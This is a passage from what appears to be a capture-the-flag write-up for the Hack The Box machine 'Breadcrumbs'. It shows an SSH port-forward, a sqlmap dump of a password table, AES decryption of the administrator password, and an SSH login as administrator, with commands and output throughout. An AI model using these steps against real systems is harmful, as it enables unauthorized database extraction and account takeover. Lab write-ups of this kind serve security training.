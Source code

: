  We obtain an aes key, we will use sqlmap to forward port so we can do it on kali. We need two terminal, in one terminal :

```sh
ssh -N -L 1234:127.0.0.1:1234 development@10.10.10.228
```

 In two terminal :

```sh
curl http://127.0.0.1:1234/index.php\?method\=select\&username\=administrator\&table\=passwords
```

Now run sqlmap with –dump against

```sh
sqlmap -u http://127.0.0.1:1234/index.php\?method\=select\&username\=administrator\&table\=passwords --dump
```

```sh
Database: bread
Table: passwords
[1 entry]
+----+---------------+------------------+----------------------------------------------+
| id | account       | aes_key          | password                                     |
+----+---------------+------------------+----------------------------------------------+
| 1  | Administrator | k19D193j.<19391( | H2dFz/jNwtSTWDURot9JBhWMP6XOdmcpgqvYHG35QKw= |
+----+---------------+------------------+----------------------------------------------+
```

We get a base64 encrypted password with an aes key, we go to CyberChef (our decoder / encoder prefer ^^)

Import From Base64 and import aes Decrypt, add aes key too, with input and output mode raw
Key in Latin and IV in hex (iv =0000000000000000).

Like this :

![hack](https://media.discordapp.net/attachments/490431433559506954/823469417420554250/unknown.png)

And we finally get the administrator password :

```sh
p@ssw0rd!@#$9890./
```

Now ssh administrator :

```sh
?--x0ld@emp7 ~/HackTheBox/Breadcrumbs  
?-?  ssh administrator@10.10.10.228
administrator@10.10.10.228's password: 
Microsoft Windows [Version 10.0.19041.804]
(c) 2020 Microsoft Corporation. All rights reserved.

administrator@BREADCRUMBS C:\Users\Administrator>dir
 Volume in drive C has no label.
 Volume Serial Number is 7C07-CD3A

 Directory of C:\Users\Administrator

01/26/2021  10:06 AM    <DIR>          .
01/26/2021  10:06 AM    <DIR>          ..
01/15/2021  04:56 PM    <DIR>          3D Objects 
01/15/2021  04:56 PM    <DIR>          Contacts   
02/09/2021  08:08 AM    <DIR>          Desktop    
01/15/2021  04:56 PM    <DIR>          Documents  
01/15/2021  04:56 PM    <DIR>          Downloads  
01/15/2021  04:56 PM    <DIR>          Favorites  
01/15/2021  04:56 PM    <DIR>          Links      
```